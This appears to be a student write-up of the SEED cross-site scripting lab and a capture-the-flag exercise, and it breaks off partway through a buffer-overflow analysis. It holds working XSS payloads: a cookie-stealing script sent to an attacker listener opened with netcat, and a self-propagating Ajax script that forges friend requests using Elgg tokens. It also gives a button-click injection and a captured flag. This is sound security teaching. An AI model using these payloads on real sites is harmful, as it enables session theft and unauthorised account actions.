




# Cross-Site Scripting (XSS) Attack Lab

## Task 1

- Logged in as Alice, since their credentials are displayed in the lab guide (username: alice, password: seedalice).
- Clicked the *Edit Profile* button and set the Brief Description with the string:
`<script>alert('hello')</script>`
- After visiting Alice's profile page, the user is surprised by a pop-up, meaning that the Javascript code was executed.



## Task 2

- The procedure is similar to the previous task, but the content of the pop-up is now replaced by the user's cookies, stored in the variable `document.cookie`



## Task 3

- Similarly to the previous tasks, edit the Brief Description of Alice's profile, but this time its content will be the string:
`<script>document.write('');</script>`
- This way, when some user visits Alice's profile, an HTTP GET request will be sent to the attacker's machine.
- The attacker's machine must be listening on the port 5555, done by executing the following command:
`nc -lknv 5555`
- When the HTTP GET request is received, the cookies of the user that visited Alice's profile become available to the attacker.



## Task 4

- Log in as Alice and manually add Samy as a friend, by visiting his profile page and clicking on the button *Add friend*.
- Check the HTTP request of that action by using a Firefox add-on called HTTP Header Live.
- Based on the request URL, change the value of the variable `sendurl`:
`var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token`
- Log in as Samy using the given credentials (username: samy, password: seedsamy).
- Edit his profile by inserting the following script in the About Me section, using the *Text mode*, which is done by clicking on the button *Edit HTML*:

```javascript
<script type="text/javascript">
    window.onload = function () {
        var Ajax=null;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;
        //Construct the HTTP request to add Samy as a friend
        var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token
        //Create and send Ajax request to add friend
        Ajax=new XMLHttpRequest();
        Ajax.open("GET", sendurl, true);
        Ajax.send();
    }
</script>
```

- Log in as Boby, using the given credentials (username: boby, password: seedboby) and visit Samy's profile. By refreshing the page, it's possible to see that Boby instantly became Samy's friend.

- Question 1 answer:
    - Lines ➀ and ➁ are stored as variables given those are dynamic security tokens unique to a user that enters Samy's profile page, which are required security parameters to add Samy as a friend.
- Question 2 answer:
    - We were unable to launch an attack in the *Editor Mode*, given that it sanitizes the input of some characters, such as "<" or ">" signs, making Javascript insertion impossible.



# Capture The Flag

## Challenge 1:

- Do a submission of an arbitrary justification and noticed that the page of the request has two buttons and one of them is called "Give the flag".
- By analyzing the HTML code of the page, we conclude that this button id is "giveflag".
- As the name says, the action of this button returns the flag of this challenge, so all we need to do is to click on it.
- This can be done by injecting Javascript code by entering the following string in the justification field:
```Javascript
<script>document.getElementById("giveflag").click()<script>
```
- Submit 1st flag ("**flag{8620558bac7f21c09ec60e0bcafc2bb1}**")

## Challenge 2:

- Downloaded the files provided for this CTF.
- Executed the `checksec program` command to analyse the program compilation protections and noticed the following characteristics:
    - No RELRO
    - No canary found
    - NX disabled
    - PIE enabled
    - No RPATH
    - No RUNPATH
- The line 12 of the code has a vulnerability, since the function *gets* keeps reading the input until it founds a newline/EOF character, independentely of the size of the variable where the program stores that input.
- 